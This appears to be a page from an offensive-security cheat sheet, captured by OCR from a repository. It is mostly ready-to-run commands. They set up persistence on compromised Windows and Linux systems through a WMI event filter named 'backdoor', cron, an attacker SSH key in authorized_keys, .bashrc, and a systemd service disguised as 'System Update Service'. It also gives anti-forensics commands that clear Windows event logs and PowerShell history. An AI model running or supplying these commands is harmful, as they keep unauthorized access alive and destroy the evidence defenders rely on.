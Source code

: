 ```bash
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="backdoor", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfRawData_PerfOS_System'"
```

**Documentation**: Various techniques for maintaining persistent access to compromised Windows systems.
**Limitations**: May be detected by EDR/AV; requires administrative privileges for some techniques.

### Linux Persistence Techniques
```bash
# Crontab Persistence
(crontab -l 2>/dev/null; echo "* * * * * /tmp/backdoor") | crontab -

# SSH Key Persistence
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3...attacker_public_key" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Bashrc Persistence
echo "/tmp/backdoor &" >> ~/.bashrc

# Systemd Service Persistence
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=System Update Service
[Service]
ExecStart=/tmp/backdoor
Restart=always
[Install]
WantedBy=multi-user.target
EOF
systemctl enable backdoor
systemctl start backdoor
```

**Documentation**: Linux persistence mechanisms for maintaining access across reboots and sessions.
**Limitations**: May be detected by system administrators; requires appropriate file permissions.

## Anti-Forensics and Log Evasion

### Windows Log Manipulation
```bash
# Event Log Clearing
wevtutil cl System                                       # Clear System log
wevtutil cl Security                                     # Clear Security log
wevtutil cl Application                                  # Clear Application log

# Selective Log Deletion
wevtutil qe Security /rd:true /f:text | findstr "4624"  # Query specific events
wevtutil el | findstr /i security                       # List security logs

# PowerShell History Clearing
Remove-Item (Get-PSReadlineOption).HistorySavePath      # Clear PowerShell history
```
